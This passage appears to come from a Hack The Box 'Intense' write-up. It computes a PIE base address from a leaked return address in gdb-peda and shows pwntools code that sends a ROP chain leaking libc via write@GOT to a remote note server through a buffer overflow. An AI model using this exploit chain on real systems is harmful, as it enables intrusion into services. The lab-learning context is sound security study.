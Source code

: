 Program base Address:

Because PIE is enabled it means that even if my gadgets are in the main program, they still move around in memory.
I'll use my leaked return address (RIP) to find the offset of the program base. The return address I leak will always be as the same distance from the base into that memory space. So I can simply look at that address and the memory map, and calculate the offset.

```
gdb-peda$ x/3xg $rbp-0x8
0x7fffffff8fb8:	0xd0fe47edd3651300	0x00007fffffff90c0
0x7fffffff8fc8:	0X0000555555554f54
gdb-peda$ info proc mappings
process 31711
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
      0x555555554000     0x555555556000     0x2000        0x0 /Lab/htb/Intense/note_server
      0x555555755000     0x555555756000     0x1000     0x1000 /Lab/htb/Intense/note_server
      0x555555756000     0x555555757000     0x1000     0x2000 /Lab/htb/Intense/note_server
      0x555555757000     0x555555778000    0x21000        0x0 [heap]
      0x7ffff7dd7000     0x7ffff7df9000    0x22000        0x0 /lib/x86_64-linux-gnu/libc-2.28.so
gdb-peda$ p 0X0000555555554f54 - 0x0000555555554000
$3 = 0xf54
```

Here our return address is **0X0000555555554f54** and the and base address of program is  **0x555555554000** so the offset  **0xf54**  And because that offset is always the same. I can calculate for any run that the base address will be the leaked return address minus **0xf54**


```
base_address = rip - 0xf54 # 0x caught with the (rip - base addresse) For base address gdb-peda$ vmmap and   gdb-peda$ p 0X0000555555554f54 - 0x0000555555554000
```

Get Gadgets:

I'll need gadgets that allow me to set rdi, rsi, and rdx, as well as the GOT address for write to leak, and the PLT address for write to call. I'll get gadgets by typing rop at the gdb-peda$ prompt:

Firstly i tried to get gadgets using the python pwntools ROP class like:

```
def read_write_libc_fct_address(binary,canary,rbp,base_address):

   elf= ELF(binary, checksec=False)
   elf.address = base_address
   rop = ROP(elf)
   # create the rop gadgets representing : write(file_descriptot=4,write@GOT())  file_descriptor = 4 ( our client )
   rop.write(FILE_DESCRIPTOR,elf.got['write'])
   log.info('stage 1 ROP Chain :' + rop.dump())
   len_rop=len(rop.chain())
   ## try got write
   payload_fullbuff=put_payload_into_notebuffer(canary,rbp,rop.chain(),False)

   #Now index =1024, let's use CMD2 and define offset as 4 and use memcpy() to copy the canary rbp and rop into the end of the node[]
   copy_size = 8+16+len_rop # the size of buffer to cpy
   payload_bof =copy_to_note(4,copy_size)

   # send to payload
   p = remote(args.ip,args.port)
   p.send(payload_fullbuff)  # send the payload to put all in the note buffer
   p.send(payload_bof)   # throw bof wiht cmd2
   # read the first buffer+copying data over the buffer
   data= p.recv(1024+copy_size)

```
